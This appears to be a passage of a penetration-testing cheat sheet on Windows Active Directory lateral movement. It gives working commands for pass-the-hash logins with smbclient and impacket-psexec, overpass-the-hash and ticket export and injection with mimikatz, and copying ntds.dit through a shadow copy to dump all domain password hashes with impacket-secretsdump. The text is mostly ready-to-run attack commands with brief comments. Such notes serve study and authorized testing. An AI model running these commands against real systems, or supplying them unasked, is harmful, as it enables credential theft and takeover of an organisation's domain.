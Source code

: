 - smbclient connect to smb share
```
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

- authenticate to a machine
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
#### Overpass the Hash

when we need to authenticate via kerberos and we have only the hash of the user we can use it to create a ticket to the service we want and then authenticate with that 

tools: 
- mimikatz
```
sekurlsa::pth /user:<user> /domain:<domain>/ntlm:<ntlm hash> /run:<command>
```

#### Pass the Ticket

use the cached ticket and inject inside other sessions.

tools:
- mimikatz

```
privilege::debug
sekurlsa::tickets /export
dir *.kirbi

for example:
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

#### Shadow Copies

dump ntds and then revers it to get all users' hash passwords

```
vshadow.exe -nw -p  C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak

impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```